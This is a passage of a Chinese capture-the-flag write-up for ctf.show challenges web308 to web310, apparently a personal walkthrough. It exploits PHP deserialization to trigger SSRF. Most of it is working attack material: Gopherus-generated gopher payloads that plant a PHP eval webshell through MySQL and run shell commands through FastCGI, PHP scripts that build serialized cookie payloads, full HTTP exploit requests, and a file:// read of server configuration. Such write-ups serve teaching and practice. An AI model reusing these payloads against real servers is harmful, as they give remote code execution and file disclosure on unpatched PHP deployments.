Give query to execute: select "<?php eval($_POST[a]);?>" into outfile "/var/www/html/a.php"                                                                

Your gopher link is ready to do SSRF :
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%45%00%00%00%03%73%65%6c%65%63%74%20%22%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%61%5d%29%3b%3f%3e%22%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%22%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%61%2e%70%68%70%22%01%00%00%00%01
```

用户名为`root`文件里面有

```php
<?php
class config{
	public $update_url = 'gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%45%00%00%00%03%73%65%6c%65%63%74%20%22%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%61%5d%29%3b%3f%3e%22%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%22%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%61%2e%70%68%70%22%01%00%00%00%01';
}
class dao{
	private $config;

	public function __construct(){
		$this->config=new config();
	}
}
$a=new dao();
echo base64_encode(serialize($a));
```

# web309

一样的方法测出`9000`端口

```shell
┌──(kali㉿kali)-[~/桌面/tools/Gopherus-master/Gopherus-master]
└─$ ./gopherus.py --exploit fastcgi                                                                                                                         

                                                                                                                                                            
  ________              .__                                                                                                                                 
 /  _____/  ____ ______ |  |__   ___________ __ __  ______                                                                                                  
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/                                                                                                  
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \                                                                                                   
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >                                                                                                  
        \/       |__|        \/     \/                 \/                                                                                                   
                                                                                                                                                            
                author: $_SpyD3r_$                                                                                                                          
                                                                                                                                                            
Give one file name which should be surely present in the server (prefer .php file)
if you don't know press ENTER we have default one:  index.php           
Terminal command to run:  tac f*

Your gopher link is ready to do SSRF:
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%00%F6%06%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH58%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%09SCRIPT_FILENAMEindex.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%3A%04%00%3C%3Fphp%20system%28%27tac%20f%2A%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

然后发包得到flag，

```
GET /index.php HTTP/1.1
Host: 61f538ef-2866-4428-93d9-9da7eaf15f88.challenge.ctf.show
Cookie: PHPSESSID=nac58l7me9jasto9obsv31g9sb;service=TzozOiJkYW8iOjE6e3M6MTE6IgBkYW8AY29uZmlnIjtPOjY6ImNvbmZpZyI6MTp7czoxMDoidXBkYXRlX3VybCI7czo1NzU6ImdvcGhlcjovLzEyNy4wLjAuMTo5MDAwL18lMDElMDElMDAlMDElMDAlMDglMDAlMDAlMDAlMDElMDAlMDAlMDAlMDAlMDAlMDAlMDElMDQlMDAlMDElMDAlRjYlMDYlMDAlMEYlMTBTRVJWRVJfU09GVFdBUkVnbyUyMC8lMjBmY2dpY2xpZW50JTIwJTBCJTA5UkVNT1RFX0FERFIxMjcuMC4wLjElMEYlMDhTRVJWRVJfUFJPVE9DT0xIVFRQLzEuMSUwRSUwMkNPTlRFTlRfTEVOR1RINTglMEUlMDRSRVFVRVNUX01FVEhPRFBPU1QlMDlLUEhQX1ZBTFVFYWxsb3dfdXJsX2luY2x1ZGUlMjAlM0QlMjBPbiUwQWRpc2FibGVfZnVuY3Rpb25zJTIwJTNEJTIwJTBBYXV0b19wcmVwZW5kX2ZpbGUlMjAlM0QlMjBwaHAlM0EvL2lucHV0JTBGJTA5U0NSSVBUX0ZJTEVOQU1FaW5kZXgucGhwJTBEJTAxRE9DVU1FTlRfUk9PVC8lMDAlMDAlMDAlMDAlMDAlMDAlMDElMDQlMDAlMDElMDAlMDAlMDAlMDAlMDElMDUlMDAlMDElMDAlM0ElMDQlMDAlM0MlM0ZwaHAlMjBzeXN0ZW0lMjglMjd0YWMlMjBmJTJBJTI3JTI5JTNCZGllJTI4JTI3LS0tLS1NYWRlLWJ5LVNweUQzci0tLS0tJTBBJTI3JTI5JTNCJTNGJTNFJTAwJTAwJTAwJTAwIjt9fQ==
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Sec-Fetch-User: ?1
Referer: https://ctf.show/
Priority: u=0, i
Connection: close


```

# web310

文件还是没有变，只不过这里我们不知道打那个端口了，不过我们可以进行任意文件

```php
<?php
class config{
	public $update_url = 'file:///etc/nginx/nginx.conf';
}
class dao{
	private $config;

	public function __construct(){
		$this->config=new config();
	}
}
$a=new dao();
echo base64_encode(serialize($a));
```

```
GET /index.php HTTP/1.1
Host: 6b2bfeee-08ab-4f2b-b0f3-80a7f6c5669a.challenge.ctf.show
Cookie: PHPSESSID=perb4j8irn77c7fju3r2jjf2hc;service=TzozOiJkYW8iOjE6e3M6MTE6IgBkYW8AY29uZmlnIjtPOjY6ImNvbmZpZyI6MTp7czoxMDoidXBkYXRlX3VybCI7czoyODoiZmlsZTovLy9ldGMvbmdpbngvbmdpbnguY29uZiI7fX0=
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://6b2bfeee-08ab-4f2b-b0f3-80a7f6c5669a.challenge.ctf.show/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i
Connection: close


```

```
server {
        listen       4476;
        server_name  localhost;
        root         /var/flag;
        index index.html;

        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    }
```

```php
<?php
class config{
	public $update_url = 'http://localhost:4476';
}
class dao{
	private $config;

	public function __construct(){
		$this->config=new config();
	}
}
$a=new dao();
echo base64_encode(serialize($a));
```

```
GET /index.php HTTP/1.1
Host: 6b2bfeee-08ab-4f2b-b0f3-80a7f6c5669a.challenge.ctf.show
Cookie: PHPSESSID=perb4j8irn77c7fju3r2jjf2hc;service=TzozOiJkYW8iOjE6e3M6MTE6IgBkYW8AY29uZmlnIjtPOjY6ImNvbmZpZyI6MTp7czoxMDoidXBkYXRlX3VybCI7czoyMToiaHR0cDovL2xvY2FsaG9zdDo0NDc2Ijt9fQ==
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://6b2bfeee-08ab-4f2b-b0f3-80a7f6c5669a.challenge.ctf.show/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i
Connection: close


```

# 小结

触发方法可能是没怎么提到，其实就那几个路由别弄错了(比如少路径等)就行